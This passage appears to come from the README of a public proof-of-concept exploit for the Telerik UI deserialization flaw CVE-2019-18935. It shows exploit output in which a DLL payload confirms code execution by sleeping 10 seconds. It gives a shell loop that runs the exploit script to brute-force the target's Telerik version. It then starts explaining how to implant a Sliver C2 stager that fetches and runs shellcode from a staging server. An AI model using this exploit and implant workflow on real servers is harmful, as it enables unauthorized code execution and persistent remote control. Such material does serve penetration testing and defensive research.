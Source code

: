 ```
                                     'PublicKeyToken=<TOKEN>',
              'TempFileName': '1576142987.918625.dll'}}

[*] Triggering deserialization...

<title>Runtime Error</title>
<span><H1>Server Error in '/' Application.<hr width=100% size=1 color=silver></H1>
<h2> <i>Runtime Error</i> </h2></span>
...omitted for brevity...

[*] Response time: 13.01 seconds
```

In the example above, the application took at least 10 seconds to respond, indicating that the DLL payload successfully invoked `Sleep(10000)`.

#### Brute-force Telerik UI version

As detailed in the DerpCon talk [.NET Roulette (39:46)](https://youtu.be/--6PiuvBGAU?t=2386), we can brute-force the Telerik UI version by specifying only the _major_ version of the `Telerik.Web.UI` assembly (i.e., the `2017` portion of the full version string `2017.2.503.40`) when uploading a file. This technique drastically reduces the search space when compared to brute-forcing each specific release of this software—and, as an added benefit, it can even detect versions that aren't explicitly listed in the [release history](https://www.telerik.com/support/whats-new/aspnet-ajax/release-history) for this software. Learn more about .NET assembly versioning on [MSDN](https://docs.microsoft.com/en-us/dotnet/api/system.version#remarks).

```
$ for YEAR in $(seq 2013 2018); do
    echo -n "$YEAR: "
    python3 CVE-2019-18935.py -t -v "$YEAR" -p /dev/null -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null |
    grep -oE "Telerik.Web.UI, Version=$YEAR\.[0-9\.]+" ||
    echo
done

2013:
2014:
2015:
2016:
2017: Telerik.Web.UI, Version=2017.2.503.40
2018:
```

#### Implant with Sliver C2 framework

The custom [Sliver](https://github.com/BishopFox/sliver) stager payload [`sliver-stager.c`](sliver-stager.c) receives and executes Sliver shellcode (the stage) from the Sliver server (the staging server), following Metasploit's staging protocol. For more details on how this works, read the header in the payload source.

Start Sliver server. More info on server setup [here](https://github.com/BishopFox/sliver/wiki/Getting-Started).
